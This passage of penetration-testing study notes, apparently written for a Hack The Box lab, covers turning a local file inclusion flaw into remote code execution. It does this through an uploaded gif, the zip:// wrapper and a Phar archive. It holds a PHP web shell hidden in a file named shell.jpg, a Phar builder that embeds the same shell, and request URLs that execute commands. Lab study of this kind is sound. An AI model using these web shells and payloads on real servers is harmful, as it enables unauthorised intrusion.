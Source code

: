 > Exploit :
> 
> 
> Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:
> 
> ```bash
> <img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
> ```
> 
> ```bash
> http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
> ```
> 

## Upload Zip

<aside>
💡 We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

```bash
0xR3Y4D@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

</aside>

> Exploit :
> 
> 
> ```bash
> http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
> ```
> 

## **Phar Upload**

<aside>
💡 Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

```bash
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
?>
```
